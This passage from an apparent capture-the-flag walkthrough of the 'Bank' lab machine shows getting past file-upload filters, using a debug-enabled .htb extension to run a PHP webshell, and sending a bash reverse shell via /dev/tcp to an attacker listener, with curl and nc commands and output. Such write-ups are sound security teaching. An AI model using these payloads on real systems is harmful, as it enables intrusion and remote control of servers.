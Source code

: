 The other two methods are trivially bypassed (by changing the Content-Type header to that of an image and by starting the file out with the [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) of an image and putting the PHP code later in the file). This one is more difficult. I can upload the webshell, but trying to visit the webshell just returns an error:

![image-20200701075845918](https://0xdfimages.gitlab.io/img/image-20200701075845918.png)

That’s because the server is trying to process it as an image, and not as PHP, so there’s no execution.

### Finding an Extension

I tried a handful of [other extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) that commonly will be executed as PHP, but all were blocked.

In looking the source for `support.php`, there’s a comment:

```

<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] --

```

I changed the upload to `cmd.htb`, and it uploaded.

To test, I ran the `id` command, and it worked:

```

root@kali# curl http://bank.htb/uploads/cmd.htb?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell

Now to get a shell, with `nc` listening on 443, I’ll issue the following command to the webshell:

```

root@kali# curl http://bank.htb/uploads/cmd.htb --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.41/443 0>&1"'

```

The connection comes back with a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.29.
Ncat: Connection from 10.10.10.29:53542.
bash: cannot set terminal process group (1076): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/var/www/bank/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
